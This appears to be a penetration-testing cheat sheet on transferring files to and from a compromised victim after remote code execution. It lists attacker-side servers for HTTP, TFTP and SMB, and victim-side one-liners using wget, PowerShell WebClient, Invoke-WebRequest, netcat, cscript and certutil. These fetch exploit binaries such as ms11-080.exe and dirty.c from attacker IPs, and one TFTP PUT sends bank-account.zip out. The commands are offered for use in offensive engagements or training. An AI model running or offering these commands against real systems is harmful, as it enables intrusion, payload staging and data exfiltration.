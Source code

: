 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```
sudo service apache2 start
/var/www/html

wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp

cd /tftp 
touch incoming 
chmod 777 incoming

tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] [folder to server]
smbserver.py sharez /tmp/smbsharedzz/

Dir \\192.168.1.48\sharez
\\192.168.1.48\sharez\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```





# File Transfer - Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








# More -  Windows lolbins
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
